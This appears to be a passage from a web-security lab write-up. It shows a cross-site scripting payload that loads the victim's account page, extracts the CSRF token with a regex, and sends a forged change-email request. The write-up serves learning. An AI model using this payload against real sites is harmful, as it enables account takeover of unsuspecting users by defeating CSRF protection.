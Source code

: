 By observing the change-email request in Burp Suite, I saw what arguments I need to send.
The request to `/my-account` comes first in order to extract the csrf argument using regex.

```html
<script>
function reqListener () {
  const pageSource = this.responseText;
  const csrf = pageSource.match('name="csrf" value="(.*)"')[1]

  const changeEmailRequest = new XMLHttpRequest();
  changeEmailRequest.open("POST", "/my-account/change-email");
  changeEmailRequest.send(`email=stam@stam.com&csrf=${csrf}`)
}

var req = new XMLHttpRequest();
req.addEventListener("load", reqListener);
req.open("GET", "/my-account");
req.send();
</script>
```